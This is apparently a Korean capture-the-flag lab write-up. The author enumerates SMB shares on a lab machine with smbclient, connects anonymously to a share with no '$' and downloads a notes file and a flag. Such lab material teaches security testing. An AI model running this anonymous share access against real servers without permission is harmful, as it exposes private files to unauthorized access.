

이번 문제는 SMB 관련된 기초 문제이다.


SMB 관련되어 통신을 해본적이 단 한번도 없으므로 아래 내용 자체를 이해하지 못해, 검색해보았다. 그랬더니 smbclient라는 툴을 사용해야하만 하는 문제였다.


smbclient 실행 시 아래의 옵션이 있으며, 리스트 확인하는 거라면 '-L'이라는 것을 알 수 있다.
``` shell
# smbclient -h

Invalid option -h: unknown option

Usage: smbclient [-?EgqBNPkV] [-?|--help] [--usage] [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan]
        [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES] [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse]
        [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout] [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report]
        [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME]
        [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM] [-U|--user=[DOMAIN/]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash]
        [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN] [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE]
        [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-k|--kerberos] [-V|--version] [OPTIONS] service <password>
```
실제로 연결 시도 시 아래와 같이 출력되는 것을 확인 할 수 있다.
``` shell
# smbclient -L 10.129.86.199
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.86.199 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
각각의 내용은 아래와 같다.
<br/><br/>


| Sharename    | Type  | Comment                    |
|--------------|-------|----------------------------|
| ADMIN$       | Disk  | 원격 관리를 위한 특별한 공유 폴더로, 시스템 관리자가 원격으로 서버를 관리하는 데 사용됩니다.               |
| C$           | Disk  | 서버의 C 드라이브에 대한 기본 공유로, 서버의 파일 시스템에 접근할 수 있도록 합니다.                         |
| IPC$         | IPC   | Inter-Process Communication(프로세스 간 통신)에 사용되는 특수한 공유 폴더로, 사용자들이 직접 접근할 필요가 없습니다. |
| WorkShares   | Disk  | 서버에서 추가로 설정된 디스크 또는 디렉토리를 나타내며, 해당 폴더의 "Disk" 타입은 파일 및 디렉토리를 공유할 수 있음을 의미합니다. "Comment"에는 해당 공유에 대한 설명이나 주석이 들어갑니다. |


문제 6번에 대한 답이 당연히 'anonymous'인줄 알았으나, 오답이였다. 힌트를 확인해보니, 위 결과에서 $가 없는 이름이 정답인듯 하다.


몇 가지 검색 해보니 "$" 여부에 대한 아래의 내용을 찾을 수 있다.
> $가 없는 공유는 일반적으로 사용자에게 익명으로 접근이 허용되는 공유를 의미합니다. 예를 들어, Public 공유는 일반적으로 모든 사용자에게 열려있고, 로그인이 필요 없는 익명 공유로 간주됩니다.


이제 대상 WorkShares에는 '$' 표시가 없으므로 익명으로 접속하는 옵션인 -N을 붙여 연결을 시도하면 아래와 같이 접속이 가능하다.
``` shell
# smbclient //10.129.86.199/WorkShares -N

Try "help" to get a list of possible commands.
smb: \>
```

접속 후 어떤 파일이 있는 확인 후 아래와 같이 다운로드 할 수 있다.
``` shell
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 09:08:24 2021
  ..                                  D        0  Mon Mar 29 09:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 11:00:37 2021
		5114111 blocks of size 4096. 1748861 blocks available

smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

``` shell
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

		5114111 blocks of size 4096. 1748861 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

SMB 연결 해제 후 받아온 파일 내용을 확인하면 flag 획득이 가능하다.
```
# cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing #
#
# cat flag.txt
........
```

SMB 관련 악성코드도 분석해보고 했지만, 실제로 이렇게 SMB 연결해본 것은 처음이다. 앞으로도 사내 서버가 외부에 SMB 포트가 노출되어 있다면, 이렇게 접근해보는 것도 괜찮을 것 같다.
